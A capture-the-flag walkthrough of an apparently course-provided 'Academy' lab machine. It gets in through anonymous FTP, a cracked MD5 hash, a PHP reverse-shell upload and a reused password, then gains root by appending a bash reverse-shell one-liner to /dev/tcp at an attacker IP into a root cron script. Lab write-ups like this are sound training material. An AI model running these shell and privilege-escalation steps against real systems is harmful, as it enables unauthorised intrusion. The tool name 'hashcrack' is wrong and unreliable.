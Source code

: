 
After the scan we found 3 open ports
Note: For more details look into "Rust and Nmap Scans"

- Port 21 vsftpd 3.0.3
- Port 22 OpenSSH 7.9p1
- Port 80 Apache httpd 2.4.38 ((Debian))

**Anonymous FTP  allowed.**

- In this ftp login we found a note
  
```
Hello Heath !
Grimmie has setup the test website for the new academy.
I told him not to use the same password everywhere, he will change it ASAP.


I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:

INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

The StudentRegno number is what you use for login.


Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
We can always adapt it to our needs.

-jdelta

``` 

So, we got student registration number and password hash

Cracking hash I got: cd73502828457d15655bbd7a63fb0bc8:student (I've used hashes.com) 
for the cracking we can used the commandline
Find the hash: hash-identifier cd73502828457d15655bbd7a63fb0bc8  
(The hash is md5). Save this hash into a file 
Now use hashcrack: hashcrack -m 0 hash.txt path/to/wordlist
- hashcrack -m <mode for hash> <hash file that need to be cracked> <wordlist>

Now, to know the exact location of the login page for students. I performed a gobuster directory scan. For more details look into the gobuster.txt.

Other tools:
	- dirb http://<ip address>
	- ffuf -w /usr/share/wordlst/dirbuster/directory-list-2.3-medium.txt:FUZZ http://<ip address>/FUZZ

```
Successfully logged inn
```
Now, after successful login I've observed there's a my-profile page where we can upload an image. (But instead of image I uploaded an php reverse shell).
Note: before uploading the php reverse shell open an netcat listener.

Now, after the successful reverse shell. I thought of privilege escalation but we have limited access.

So, I executed "linpeas.sh"

I downloaded linpeas and opened an python3 http.server
- Command: wget http://<attacker Ip>:<port>/linpeas.sh

After, executing linpeas.sh I gound an user name "grimmie" and his password "My_V3ryS3cur3_P4ss".

Performed ssh : ssh grimmie@<target ip> 

Found a box backup.sh
Info: while performing linpeas.sh I didn't find any cronjobs in the machine.

So, in order to check any automated files running on the system I downloaded pspy64 tool. This tools helps to monitor all the processes which are running on the system without root access.

So, downloaded pspy from "https://github.com/DominicBreuker/pspy?tab=readme-ov-file"

I found backup.sh was running for every minute with root privilege.

So, I changed the content of backup.sh and added the one linear bash script for reverse chell.

""' `bash -c 'exec bash -i &>/dev/tcp/192.168.1.12/9999 <&1' '""


Finally got the root access and captured the flag.

%% congratz you rooted this box !
    Loks like this CMS isn't so secure...
    I hope you enjoyed it.
    If you have any issue please let us know in the course discord.
    Happy hacking !
%%









